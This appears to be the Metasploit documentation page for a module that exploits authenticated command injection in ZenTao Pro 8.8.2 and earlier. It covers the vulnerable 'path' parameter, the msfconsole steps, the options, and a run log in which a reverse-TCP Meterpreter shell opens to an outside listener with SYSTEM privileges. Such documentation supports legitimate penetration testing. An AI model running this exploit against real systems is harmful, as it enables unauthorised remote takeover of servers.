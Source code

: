 ## Vulnerable Application
This module exploits a command injection vulnerability in ZenTao Pro 8.8.2 and earlier versions in order to execute arbitrary commands with
SYSTEM privileges.
          
The module first tries to obtain the ZenTao Pro version from /pro/user-login.html. If a vulnerable version is found,
it attempts to authenticate to the ZenTao dashboard. It then tries to execute the payload by submitting fake repositories via
the 'Repo Create' function that is accessible from the dashboard via CI>Repo.
More precisely, the module sends HTTP POST requests to '/pro/repo-create.html' that inject commands in the vulnerable 'path'
parameter which corresponds to the 'Client Path' input field.

Valid credentials for a ZenTao admin account are required. This module has been successfully tested against ZenTao 8.8.1 and 8.8.2
running on Windows 10 (XAMPP server).

Vulnerable software for testing can be downloaded [here](https://www.zentao.pm/download.html)
and [here](https://sourceforge.net/projects/zentao/).
The easiest way to install the application is by downloading the 'One-Click Installation Package for Windows'.
The package for ZenTao 8.8.2 is available [here](https://www.zentao.pm/download/scrum-tool-team-collaboration-ztp8.8.2-413.html).
Installation is then just a matter of unzipping the package, launching the ZenTao Runner control panel via `Xampp\ start.exe`
and finally configuring and starting the server from ZenTao Runner. Detailed instructions are available [here]
(https://www.zentao.pm/book/zentaomanual/zentao-one-click-install-win-13.html).

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/windows/http/zentao_pro_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the ZenTao Pro account]`
6. Do: `set PASSWORD [password for the ZenTao Pro account]`
7. Do: `set RHOSTS [IP]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `exploit`

## Options
### PASSWORD
The password for the ZenTao Pro account to authenticate with. This option is required.
### TARGETPATH
The path on the target where commands will be executed. The default value is `C:\`.
### TARGETURI
The base path to ZenTao Pro. The default value is `/pro/`.
### USERNAME
The username for the ZenTao Pro account to authenticate with. This option is required.

## Targets
```
Id  Name
--  ----
0   Windows (x86)
1   Windows (x64)
```

## Scenarios
### ZenTao 8.8.2 running on Windows 10 (XAMPP server)
```
msf5 exploit(windows/http/zentao_pro_rce) > show options

Module options (exploit/windows/http/zentao_pro_rce):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   PASSWORD    zentao123        yes       Password to authenticate with
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.9.14     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SRVHOST     0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT     8080             yes       The local port to listen on.
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated)
   TARGETPATH  C:\              yes       The path on the target where commands will be executed
   TARGETURI   /pro/            yes       The base path to ZenTao
   URIPATH                      no        The URI to use for this exploit (default is random)
   USERNAME    admin            yes       Username to authenticate with
   VHOST                        no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows (x64)


msf5 exploit(windows/http/zentao_pro_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:4444 
[+] Successfully authenticated to ZenTao 8.8.2.
[*] Executing the payload...
[*] Command Stager progress -  20.97% done (2049/9770 bytes)
[*] Command Stager progress -  41.94% done (4098/9770 bytes)
[*] Command Stager progress -  62.92% done (6147/9770 bytes)
[*] Command Stager progress -  83.89% done (8196/9770 bytes)
[*] Command Stager progress - 100.15% done (9785/9770 bytes)
[*] Sending stage (201283 bytes) to 192.168.9.14
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.9.14:50506) at 2020-07-08 15:01:22 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
